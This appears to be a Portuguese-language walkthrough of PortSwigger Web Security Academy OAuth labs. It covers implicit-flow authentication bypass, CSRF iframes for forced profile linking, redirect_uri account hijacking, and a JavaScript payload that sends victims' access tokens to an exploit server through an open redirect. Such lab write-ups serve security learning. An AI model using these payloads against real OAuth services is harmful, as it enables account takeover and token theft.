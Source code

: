 # OAuth

OAuth normalmente aparece na página de Sign-in. A request mais provável de ser vulnerável é `/auth?client_id=...`.

Probabilidade: $${\color{green}baixa}$$.

<br>

## Laboratórios

**Authentication Bypass via OAuth Implicit Flow**

Intercepte todo o processo de autenticação por oAuth e observe que a request POST /authenticate contém um e-mail.

Troque-o para o e-mail da vítima e abra o resultado dessa request no navegador.

<br>
<br>

**Forced OAuth Profile Linking**

Analise o preceso de anexar mídia social e observe que a request com o código `oauth` não possui o parâmetro `state`.
```
/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1
```

Começe um processo para linkar a social media, pegue o código `oauth` e drope a request para não utilizá-lo.

Crie um iframe para explorar isso com CSRF:
```
<iframe src="https://0abc003804e351ab8225664700de000f.web-security-academy.net/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1"></iframe>
```

<br>
<br>

**OAuth Account Hijacking via redirect_uri**

Mude o `redirect_uri` para o servidor de exploit.

O CSRF será:
```
<iframe src="https://oauth-0a64002304635a12826490d402450089.oauth-server.net/auth?client_id=b6ajkjihwmqj6pxjov0z8&redirect_uri=https://exploit-0ad100fa040b5a2c82f7918c01ce0085.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Utilize o token capturado para logar em:
```
https://your-lab-id.web-security-academy.net/oauth-callback?code=CODE
```

<br>
<br>

**Stealing OAuth Access Tokens via an Open Redirect**

Confirme que o parâmetro `redirect_uri` está vulnerável a path traversal:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```

Encontre o Open Redirect em `GET /post/next?path=[...]` e use-o para redirecioanr o usuário para o servidor de exploit.
```
https://oauth-0a6e00b1037acb5488803fab02f200d8.oauth-server.net/auth?client_id=j03v9dtv262k7l0vkb1uu&redirect_uri=https://0a9600540369cbe58856410e00a700c7.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a44004e0379cbe5887d403b01db00d7.exploit-server.net/exploit&response_type=token&nonce=376828613&scope=openid%20profile%20email
```

O seguinte script vai vazar o access token no parâmetro da URL ao redirecionar usuarios para o servidor de exploit por um segundo:
```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Agora precisamos criar um exploit que primeiro força a vítima a visitar a URL maliciosa e depois executar o script para roubar o access token:
```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

No Repeater, vá para a request GET /me e substitua o token no header Authorization: Bearer com o que você acabou de copiar para obter a chave de API da vítima.
